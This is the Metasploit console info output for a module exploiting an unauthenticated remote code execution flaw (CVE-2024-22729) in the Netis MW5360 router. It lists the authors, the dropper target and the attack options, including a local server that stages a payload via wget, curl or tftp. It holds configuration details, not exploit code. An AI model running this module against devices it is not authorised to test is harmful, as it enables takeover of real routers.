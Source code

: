 ```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > info

       Name: Netis router MW5360 unauthenticated RCE.
     Module: exploit/linux/http/netis_unauth_rce_cve_2024_22729
   Platform: Linux
       Arch: mipsle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-01-11

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Adhikara13

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  CMD_DELAY  30               yes       Delay in seconds between payload commands to avoid locking
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     192.168.1.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                        using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The Netis MW5360 router endpoint URL
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. 
                                      This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

```